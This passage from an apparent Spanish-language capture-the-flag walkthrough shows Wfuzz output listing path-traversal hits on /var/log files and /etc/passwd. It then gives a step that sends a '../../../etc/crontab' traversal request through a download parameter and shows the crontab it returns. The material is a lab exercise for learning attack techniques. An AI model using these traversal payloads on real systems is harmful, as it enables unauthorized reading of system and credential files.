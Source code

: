 ```Shell
000000640:   500        5 L      37 W       265 Ch      "/var/log"                                                                                                            
000000671:   500        5 L      37 W       265 Ch      "/var/log/auth.log"                                                                                                   
000000698:   500        5 L      37 W       265 Ch      "/var/log/kern.log"                                                                                                   
000000699:   200        0 L      2 W        292292 Ch   "/var/log/lastlog"                                                                                                    
000000741:   200        16 L     40 W       11520 Ch    "/var/log/wtmp"                                                                                                       
000000750:   200        6 L      12 W       1920 Ch     "/var/run/utmp"                                                                                                       
000000736:   500        5 L      37 W       265 Ch      "/var/log/syslog"                                                                                                     
000000929:   200        36 L     50 W       1951 Ch     "///////../../../etc/passwd"                                                                                          

Total time: 24.41933
Processed Requests: 929
Filtered Requests: 853
Requests/sec.: 38.04363
```

**Nota:** la ruta `/etc/hosts` contiene un subdominio no explorado aún (*dev.titanic.hdb*)


Explicación: con *Wfuzz* obtenemos diferentes rutas en las que buscar


## Paso 10 -

Acción: 

```html 
GET /download?ticket=../../../etc/crontab HTTP/1.1
```

Resultado:

```html 
HTTP/1.1 200 OK

Date: Thu, 24 Apr 2025 01:40:00 GMT

...

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
```